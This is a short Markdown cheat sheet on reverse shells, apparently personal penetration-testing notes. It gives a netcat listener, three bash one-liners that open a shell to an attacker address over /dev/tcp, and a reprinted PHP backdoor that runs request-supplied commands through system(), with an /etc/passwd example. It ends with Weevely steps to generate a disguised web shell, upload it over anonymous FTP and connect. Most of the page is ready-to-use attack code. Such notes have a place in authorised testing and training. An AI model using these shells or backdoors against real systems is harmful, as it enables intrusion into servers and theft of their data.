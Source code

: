 <!--
SPDX-FileCopyrightText: 2023 - 2024 Eli Array Minkoff

SPDX-License-Identifier: CC-BY-SA-4.0
-->

# Reverse Shells

<!-- vim-markdown-toc GitLab -->

* [Reverse Shells](#reverse-shells)
  * [Simple Socket Reverse Shells](#simple-socket-reverse-shells)
    * [Attacker Side](#attacker-side)
    * [Target Side](#target-side)
  * [PHP reverse shells](#php-reverse-shells)
  * [Weevely](#weevely)

<!-- vim-markdown-toc -->

## Reverse Shells

### Simple Socket Reverse Shells

Some of the most basic reverse shells simply open a connection to a socket on the attacker's system, then read commands to run from the socket, and write their output back to it. For the examples in this section, I will assume that the attacker is listening on 192.0.2.231 port 5445.

#### Attacker Side

Run `nc -lvnp 5445` for TCP connections, or `nc -lvnup 5445` for UDP connections

**Explanation**: 

* `-l`: listen instead of initiating a connection
* `-v`: verbose output
* `-n`: do not attempt DNS resolution
* `-u`: use a UDP socket, rather than a TCP socket
* `-p 5445`: port 5445

#### Target Side

There is a list available [at this link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) of many different reverse shells in different languages.

I am including a simple one of them (with the example address and port changed), but for a much greater variety, follow the link above.

```bash
bash -i >& /dev/tcp/192.0.2.231/5445 0>&1

0<&196;exec 196<>/dev/tcp/192.0.2.231/5445; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/192.0.2.231/5445 0<&1 2>&1
```

### PHP reverse shells

On Kali systems, you can find a simple PHP reverse shell with the following contents at /usr/share/webshells/php/simple-backdoor.php:

```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

```

For a fancier web shell with a TTY-like user interface, check out [prakashchand72/Interactive-Php-Reverse-shell](https://github.com/prakashchand72/Interactive-Php-Reverse-shell).

### Weevely

Weevely provides a stealthier reverse shell that won't look like a reverse shell in logs. It can be used in a few steps:

```bash
# set the password
read -s -p "Password: " pass
# generate the executable
weevely generate "$pass" inconspicuous-filename.php
# somehow upload the executable to the target server - if there's anonymous read-write FTP access to a path within the web directory, that might work
printf 'cd upload-dir\nput %s\nexit\n' inconspicuous-filename.php | ftp -a targetserver.example
# connect to the weevely shell
weevely http://targetserver.example/upload-dir/inconspicuous-filename.php "$pass"
```
